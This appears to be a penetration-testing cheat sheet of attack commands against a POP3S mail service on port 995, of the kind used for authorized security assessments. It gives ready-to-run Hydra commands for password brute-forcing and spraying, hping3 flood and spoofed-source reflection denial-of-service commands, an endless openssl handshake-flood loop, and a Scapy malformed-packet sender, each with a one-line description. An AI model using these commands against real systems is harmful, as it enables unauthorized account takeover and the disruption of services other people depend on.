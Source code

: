 # Exploits and Attacks

## Password Attacks

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra pop3s://<target_ip> -s 995 -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.

### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra pop3s://<target_ip> -s 995 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.

## Denial of Service

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p 995 --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p 995 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### SSL/TLS Handshake Flood
- **Tool:** [[OpenSSL]]
     ```bash
     while true; do openssl s_client -connect <target_ip>:995 & done
     ```
- **Description:** Floods the service with SSL/TLS handshake requests, overwhelming the server.

### Malformed Packet Injection
- **Tool:** [[Scapy]]
	```python
	from scapy.all import *
	send(IP(dst="<target_ip>")/TCP(dport=995, flags="S")/Raw(load="malformed_data"))
	```
- **Description:** Sends malformed packets to the POP3S service, potentially causing it to crash.
